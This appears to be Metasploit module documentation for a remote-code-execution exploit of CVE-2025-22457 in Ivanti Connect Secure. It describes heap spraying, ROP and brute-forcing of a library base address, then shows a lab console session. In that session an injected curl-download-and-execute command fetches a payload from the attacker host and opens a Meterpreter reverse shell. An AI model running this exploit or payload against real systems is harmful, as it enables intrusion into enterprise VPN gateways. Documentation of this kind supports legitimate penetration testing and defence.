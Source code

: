 ## Vulnerable Application

This module exploits a Stack-based Buffer Overflow vulnerability in Ivanti
Connect Secure to achieve remote code execution (CVE-2025-22457). Versions
22.7R2.5 and earlier are vulnerable. Note that Ivanti Pulse Connect Secure,
Ivanti Policy Secure and ZTA gateways are also vulnerable but this module
doesn't support this software. Heap spray is used to place our payload in
memory at a predetermined location. Due to ASLR, the base address of
`libdsplibs` is unknown. This library is used by the exploit to build a ROP
chain and get command execution. As a result, the module will brute force this
address starting from  the address set by the `LIBDSPLIBS_ADDRESS` option.

Since this module needs to fill the processes memory with a large structure
using the heap spray technique, it might take a very long time to succeed. The
execution can be tweeked with the options described below.

Also, since this will create many sockets on your system, you might need to
increase the file descriptor limit with `ulimit` (e.g. `ulimit -n 65535`).

### Installation Steps
Get an Ivanti Security Appliance (ISA) or a Virtual Appliances (ISA-V Series)
with a vulnerable Ivanti Connect Secure installed.

Note that it is not possible to download a trial version of a Virtual Appliance
unless you contact sales and request a demo.

## Verification Steps
1. Start msfconsole
1. Do: `use linux/http/ivanti_connect_secure_stack_overflow_rce_cve_2025_22457`
1. Do: `exploit verbose=true lhost=<local host> rhosts=<remote host>`
1. You should get a Meterpreter session


## Options

### MAX_THREADS
The maximum number of threads to use when spraying (default: 32)

### WEB_CHILDREN
The number of `/home/bin/web` child processes the server uses. It's been
observed that the number of children the main process forks is directly related
to the number of vCPUs used by the system. Ivanti recommends having 4 vCPUs, so
the default number of children is set to 4.

### LIBDSPLIBS_ADDRESS
The base address of libdsplibs that the module will start with when brute
forcing. It has been observed that this address is always in the range of
`0xf6525000`-`0xf6426000`, giving 256 possible options, since the alignment is
4KB (0x1000 bytes) bytes. As a result, the default value has been set to
`0xf6426000`.

### BRUTEFORCE_ATTEMPTS
The number of attempts to brute force the base address of libdsplibs (default: 255).


## Scenarios

### Ivanti Connect Secure version 22.7r2.4 b3597

In this example, the address of libdsplibs is known to speed up the process (0xf64c1000). Also, we know the target system runs with 2 vCPU's.

```
msf6 exploit(linux/http/ivanti_connect_secure_stack_overflow_rce_cve_2025_22457) > exploit verbose=true lhost=192.168.222.97 rhosts=192.168.222.222 libdsplibs_address=0xf64c1000 web_children=2
[*] Command to run on remote host: curl -so ./pbPNUixqDiK http://192.168.222.97:8080/QAeBnT-6WHJiW5MJjwMrfA;chmod +x ./pbPNUixqDiK;./pbPNUixqDiK&
[*] Fetch handler listening on 192.168.222.97:8080
[*] HTTP server started
[*] Adding resource /QAeBnT-6WHJiW5MJjwMrfA
[*] Started reverse TCP handler on 192.168.222.97:4444
[*] 192.168.222.222:443 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.222.222:443 - Checking the product version for https://192.168.222.222:443
[+] 192.168.222.222:443 - The target appears to be vulnerable. Detected version: 22.7.2.3597
[*] 192.168.222.222:443 - shell_cmd: a;export LD_LIBRARY_PATH=/home/lib;curl -so ./pbPNUixqDiK http://192.168.222.97:8080/QAeBnT-6WHJiW5MJjwMrfA;chmod +x ./pbPNUixqDiK;./pbPNUixqDiK& #BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
[*] 192.168.222.222:443 - Targeting https://192.168.222.222:443
[*] 192.168.222.222:443 - Starting...
[*] 192.168.222.222:443 - Trying libdsplibs.so @ 0xf64c1000
[*] 192.168.222.222:443 - Making connections...
[*] 192.168.222.222:443 - Spraying...
[*] 192.168.222.222:443 - Triggering...
[*] 192.168.222.222:443 - Attempt #1
[*] 192.168.222.222:443 - Attempt #2
[*] Client 192.168.222.222 requested /QAeBnT-6WHJiW5MJjwMrfA
[*] Sending payload to 192.168.222.222 (curl/7.80.0-DEV)
[*] Meterpreter session 1 opened (192.168.222.97:4444 -> 192.168.222.222:16758) at 2025-04-30 21:36:49 +0200
[!] 192.168.222.222:443 - Exception: The connection with (192.168.222.222:443) timed out.
[*] 192.168.222.222:443 - Attempt elapsed time: 222.46986142301466 seconds
[*] 192.168.222.222:443 - Total elapsed time: 227.48146175200236 seconds

meterpreter > sysinfo
Computer     : 192.168.222.222
OS           : CentOS 7.9.2009 (Linux 4.17.00.35-selinux-jailing-production)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: nr
```

